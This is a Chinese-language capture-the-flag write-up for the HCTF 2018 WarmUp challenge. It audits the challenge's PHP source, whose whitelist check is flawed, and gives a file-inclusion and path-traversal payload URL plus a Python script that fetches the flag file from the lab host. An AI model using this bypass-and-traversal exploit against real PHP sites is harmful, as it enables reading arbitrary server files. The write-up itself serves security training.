

# 分析

来自[[HCTF 2018]WarmUp](https://buuoj.cn/challenges#[HCTF%202018]WarmUp)，代码审计

页面是一张图片，查看源码，提示访问source.php



代码审计，分析绕过

```php
<?php
  highlight_file(__FILE__);
  //定义一个类
  class emmm
  {
    //定义一个检查函数
    public static function checkFile(&$page)
    { 
      $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
      //第一个过滤，判断是否为空，为字符串
      if (! isset($page) || !is_string($page)) {
        echo "you can't see it";
        return false;
      }
      //第二个过滤，判断参数是否存在于关联数组中
      if (in_array($page, $whitelist)) {
        return true;
      }
      //过滤出file参数中遇到第一个?前的字符串
      $_page = mb_substr(
        $page,
        0,
        mb_strpos($page . '?', '?')
      );
      //检查是否存在数组中
      if (in_array($_page, $whitelist)) {
        return true;
      }
      //先使用urldecode解码，再进行过滤，如上
      $_page = urldecode($page);
      $_page = mb_substr(
        $_page,
        0,
        mb_strpos($_page . '?', '?')
      );
      //检查是否存在数组中
      if (in_array($_page, $whitelist)) {
        return true;
      }
      echo "you can't see it";
      return false;
    }
  }
  if (! empty($_REQUEST['file'])
    && is_string($_REQUEST['file'])
    && emmm::checkFile($_REQUEST['file'])
  ) {
      include $_REQUEST['file'];
      exit;
  } else {
      echo "<br>";
  }  
?> 
```

又看到了hint.php，访问得到提示flag的文件名可能是ffffllllaaaagggg


payload=`http://94f0791c-c6e0-45f3-b927-8f12d929ab9c.node5.buuoj.cn:81/?file=source.php?../../../../../ffffllllaaaagggg`

# exp

```python
import requests
import re

url = "http://94f0791c-c6e0-45f3-b927-8f12d929ab9c.node5.buuoj.cn:81/"
kw = {
	'file':'source.php?../../../../../ffffllllaaaagggg'
}
res = requests.get(url, params=kw)

if res.status_code == 200:
    res_text = res.text
    # 打印响应内容（可选）
    #print("Response:", res_text)
    # 使用正则表达式查找 flag
    flag_pattern = "flag\{.*?\}"
    flag_match = re.search(flag_pattern, res_text)
    if flag_match:
        flag = flag_match.group(0)
        print(f"flag is -->> {flag}")
    else:
        print("flag not found.")
else:
    print("Request failed.")
```

